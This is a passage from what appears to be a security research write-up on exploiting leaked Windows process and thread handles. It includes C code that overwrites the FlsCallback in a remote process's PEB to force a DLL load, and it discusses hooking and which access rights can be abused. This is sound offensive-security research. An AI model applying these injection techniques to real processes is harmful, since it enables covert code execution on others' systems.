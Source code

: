 ```
    *((DWORD*)lpBuf + 7) = StackAddress;
    *((DWORD*)lpBuf + 8) = LoadLibA;
    *((DWORD*)lpBuf + 9) = 0x41414141; // junk
    *((DWORD*)lpBuf + 10) = RtlExitThread;
    *((DWORD*)lpBuf + 11) = (SIZE_T)TlsAddr + 48;
    *((DWORD*)lpBuf + 12) = 0x41414141; // DLL name (AAAA.dll)

    NtWriteVirtualMemory(hProcess, (PVOID)TlsAddr, lpBuf, (13 * sizeof(SIZE_T)), NULL);

    // update FlsCallback in PEB and FlsData in TEB
    StackAddress = TlsAddr + 12;
    NtWriteVirtualMemory(hProcess, (LPVOID)(RemoteTeb + 0xfb4), (PVOID)&StackAddress, sizeof(SIZE_T), NULL);
    NtWriteVirtualMemory(hProcess, (LPVOID)(RemotePeb + 0x20c), (PVOID)&TlsAddr, sizeof(SIZE_T), NULL);
```

If all works well you should see attempts to load `AAAA.dll` off disk when the
callback is executed (just close the process). As a note, we're using
`NtWriteVirtualMemory` here because `WriteProcessMemory` requires
`PROCESS_VM_OPERATION` which we may not have. 

Another variation of this access might be `PROCESS_VM_WRITE|PROCESS_VM_READ`.
This gives us visibility into the address space, but we still cannot allocate
or map memory into the remote process. Using the above strategy we can rid
ourselves of the `PROCESS_QUERY_INFORMATION` requirement and simply read the
PEB address out of TEB.

Finally, consider `PROCESS_VM_WRITE|PROCESS_VM_READ|PROCESS_VM_OPERATION`.
Granting us `PROCESS_VM_OPERATION` loosens the restrictions quite a bit, as we
can now allocate memory and change page permissions. This allows us to more
easily use the above strategy, but also perform inline and IAT hooks. 

## Thread

As with the process handles, there are a handful of access rights we can dismiss
immediately:
```
SYNCHRONIZE
THREAD_QUERY_INFORMATION
THREAD_GET_CONTEXT
THREAD_QUERY_LIMITED_INFORMATION
THREAD_SUSPEND_RESUME
THREAD_TERMINATE
```

Which leaves the following:
```
THREAD_ALL_ACCESS
THREAD_DIRECT_IMPERSONATION
THREAD_IMPERSONATE
THREAD_SET_CONTEXT
THREAD_SET_INFORMATION
THREAD_SET_LIMITED_INFORMATION
THREAD_SET_THREAD_TOKEN
```
